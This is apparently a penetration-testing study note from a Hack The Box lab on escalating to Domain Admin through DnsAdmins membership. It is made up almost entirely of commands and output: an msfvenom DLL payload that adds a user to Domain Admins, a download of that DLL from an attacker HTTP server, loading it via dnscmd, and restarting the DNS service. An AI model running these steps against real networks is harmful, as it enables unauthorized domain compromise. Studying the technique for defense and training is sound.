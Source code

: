 # DnsAdmins

## DnsAdmins

**DnsAdmins group have access to DNS information on the network**

The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`

> DNS management is performed over RPC

![image.png](<../../../../.gitbook/assets/image (38).png>)

## **Leveraging DnsAdmins Access**

#### **Generating Malicious DLL**

```bash
irix@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll

# it will add user call netadm to Domain Admins
```

#### Transfer reverse shell to target

```bash
irix@htb[/htb]$ python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

```powershell
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

#### **Loading DLL as Non-Privileged User**

try to se the `dnscmd` utility to load a custom DLL with a non-privileged user. we will notice failure

```powershell
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
**Command failed: ERROR_ACCESS_DENIED**
```

#### **Loading DLL as Member of DnsAdmins**

As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this.

```powershell
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109   
```

#### **Loading Custom DLL**

```powershell
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

> **Note:** We must specify the full path to our custom DLL or the attack will not work properly.

Only the `dnscmd` utility can be used by members of the `DnsAdmins` group, as they do not directly have permission on the registry key.

### After restarting the DNS service

#### **Finding User's SID**

First, we need our user's SID.

```powershell
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

#### **Checking Permissions on DNS Service**

Once we have the user's SID, we can use the `sc` command to check permissions on the service.&#x20;

can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, which our user can start or stop dns service.

```powershell
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;**RPWP**;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

#### **Stopping and Starting the DNS Service**

```powershell
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

```powershell
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

#### **Confirming Group Membership**

If all goes to plan, our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back.

```powershell
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

#### Signing with pwned user

```powershell
runas /user:DOMAIN\pwned cmd
```
